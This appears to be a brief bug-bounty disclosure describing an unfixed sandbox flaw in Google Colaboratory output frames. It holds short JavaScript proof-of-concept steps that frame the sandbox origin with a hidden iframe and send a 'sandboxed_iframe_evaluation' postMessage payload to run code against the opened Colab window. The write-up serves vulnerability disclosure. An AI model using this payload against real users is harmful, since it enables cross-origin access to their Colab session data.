```yaml
---
title: Insecure sandbox implementation on Colaboratory outputframes (Awarded $1337, Not Fixed)
---
```

Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers with local network access.

```js
let w = open('about:blank');
```

On about:blank
```js
opener.location = 'https://colab.research.google.com/';
```

Leak ID from unencrypted DNS then do
```js
let IDfromDNS = 'blah';
let f = document.createElement('iframe');
f.hidden = true;
f.src = 'https://'+IDfromDNS+'-0-colab.googleusercontent.com/outputframe.html';
document.body.appendChild(f);
setTimeout(_ => { f.contentWindow.postMessage({sandboxed_iframe_evaluation: 'console.log(parent.opener[0].google)'}, '*'); }, 100);
```

On the "Welcome to Colaboratory" project using the sandbox on attacker.
```parent.opener[0].google``` refers to stuff.
```parent.opener[5].document``` refers to the chart.
